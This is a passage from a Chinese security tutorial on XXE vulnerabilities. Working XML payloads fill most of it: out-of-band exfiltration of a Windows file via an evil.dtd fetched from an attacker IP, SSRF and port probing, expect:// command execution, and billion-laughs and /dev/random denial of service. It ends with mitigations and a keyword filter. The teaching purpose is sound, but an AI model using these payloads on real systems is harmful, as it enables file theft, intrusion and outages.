

**方法三：**

使用ncat监听一个端口：


也可以用python创建一个建议的http服务。

`python -m SimpleHTTPServer 端口 `

 然后，我们构造payload：

```
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY remote SYSTEM "http://192.168.220.128/evil.dtd">
]>
<user><username>&remote;</username><password>admin</password></user>
```

evil.dtd

```
<!ENTITY remote SYSTEM "http://开启监听的IP地址:监听端口/%file">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
```

然后查看我们的端口监听情况，会发现我们收到了一个连接请求，问号后面的内容就是我们读取到的文件内容经过编码后的字符串，有时候也会出现报错的情况（这是我们在漏洞的代码中没有屏蔽错误和警告），比如我们这里的payload没有选用php的base64编码，这里报错了，但是同时也将所读取的内容爆了出来，只是特殊字符经过了HTML实体编码。

#### 4.3、内网探测

由于xml实体注入攻击可以利用http://协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY f SYSTEM "http://192.168.1.1/">
]>
<user><username>&f;</username><password>admin</password></user>
```

#### 4.4、端口探测

正因为xml外部实体攻击利用的http协议，也就是说利用该请求探测内网端口的存活，从而可以进行ssrf攻击。构造代码：

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "http://127.0.0.1:8000"> 
]>
<user><username>&xxes;</username><password>admin</password></user>
```

#### 4.5、命令执行

php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "expect://ipconfig"> 
]>
<user><username>&xxes;</username><password>admin</password></user>
```

#### 4.6、DOS攻击

此测试可以在内存中将小型 XML 文档扩展到超过 3GB 而使服务器崩溃。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”abc”字符串，从而导致 DDoS 攻击。原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻击。

如果目标是UNIX系统，

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

如果 XML 解析器尝试使用 /dev/random 文件中的内容来替代实体，则此示例会使服务器（使用 UNIX 系统）崩溃。

## 三、XXE漏洞修复与防御

xxe漏洞存在是因为XML解析器解析了用户发送的不可信数据。然而，要去校验DTD(document type  definition)中SYSTEM标识符定义的数据，并不容易，也不大可能。大部分的XML解析器默认对于XXE攻击是脆弱的。因此，最好的解决办法就是配置XML处理器去使用本地静态的DTD，不允许XML中含有任何自己声明的DTD。通过设置相应的属性值为false，XML外部实体攻击就能够被阻止。因此，可将外部实体、参数实体和内联DTD 都被设置为false，从而避免基于XXE漏洞的攻击。

方案一：使用开发语言提供的禁用外部实体的方法

```
PHP
libxml_disable_entity_loader(true);

JAVA
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

方案二：过滤用户提交的XML数据

过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC。